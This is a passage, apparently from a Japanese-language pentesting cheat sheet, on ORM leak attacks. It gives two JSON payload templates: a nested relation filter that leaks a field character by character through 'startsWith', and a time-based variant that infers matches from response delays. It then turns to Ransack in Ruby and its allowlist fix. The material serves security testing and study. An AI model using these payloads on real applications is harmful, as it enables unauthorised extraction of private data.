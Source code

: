 ```json
"createdBy": {
"departments": {
"some": {
"employees": {
"some": {
"departments": {
"some": {
"employees": {
"some": {
"departments": {
"some": {
"employees": {
"some": {
"{fieldToLeak}": {
"startsWith": "{testStartsWith}"
}
}
}
}
}
}
}
}
}
}
}
}
}
}
}
}
```
- **エラー/タイムクエリ**: 元の投稿では、タイムベースのペイロードを使用して情報を漏洩させるための最適なペイロードを見つけるために実施された非常に広範なテストセットを読むことができます。これは:
```json
{
"OR": [
{
"NOT": {ORM_LEAK}
},
{CONTAINS_LIST}
]
}
```
`{CONTAINS_LIST}`は、**正しい漏洩が見つかったときに応答が遅延することを確認するための1000の文字列のリストです。**

## **Ransack (Ruby)**

これらのトリックは[**この投稿で見つかりました**](https://positive.security/blog/ransack-data-exfiltration)**。**

> [!TIP]
> **Ransack 4.0.0.0では、検索可能な属性と関連付けのために明示的な許可リストの使用が強制されることに注意してください。**
